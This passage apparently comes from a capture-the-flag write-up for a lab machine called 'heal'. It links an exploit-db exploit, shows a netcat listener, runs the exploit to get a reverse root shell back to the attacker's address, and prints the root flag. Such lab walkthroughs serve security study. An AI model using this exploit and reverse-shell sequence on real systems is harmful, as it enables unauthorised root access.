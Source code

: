 

{% embed url="https://www.exploit-db.com/exploits/51117" %}

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```



```bash
❯ python3 exploit.py 127.0.0.1 8500 10.10.16.5 443 0

[+] Request sent successfully, check your listener
```



```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.46] 35072
bash: cannot set terminal process group (12578): Inappropriate ioctl for device
bash: no job control in this shell
root@heal:/# cat /root/root.txt
cat /root/root.txt
5bcfe05b5dd4d8941591a269e459bda9
```
